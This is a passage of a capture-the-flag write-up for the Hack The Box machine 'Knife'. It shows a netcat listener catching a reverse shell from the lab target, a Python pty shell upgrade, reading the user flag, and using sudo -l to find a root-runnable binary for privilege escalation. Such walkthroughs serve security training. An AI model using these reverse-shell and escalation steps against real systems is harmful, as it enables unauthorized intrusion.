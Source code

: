 {% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/knife]
└─$ sudo nc -nlvp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.242] 48238
whoami
james
python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ 
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```bash
james@knife:/home/james$ cat user.txt
cat user.txt
<redacted>
james@knife:/home/james$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:45:02 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.242/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:4502/64 scope global dynamic mngtmpaddr 
       valid_lft 86392sec preferred_lft 14392sec
    inet6 fe80::250:56ff:feb9:4502/64 scope link 
       valid_lft forever preferred_lft forever 
```
{% endraw %}

<br />
Run sudo -l to get a list of the command this user can run as sudo.

{% raw %}
```bash
james@knife:/home/james$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife 
```
{% endraw %}
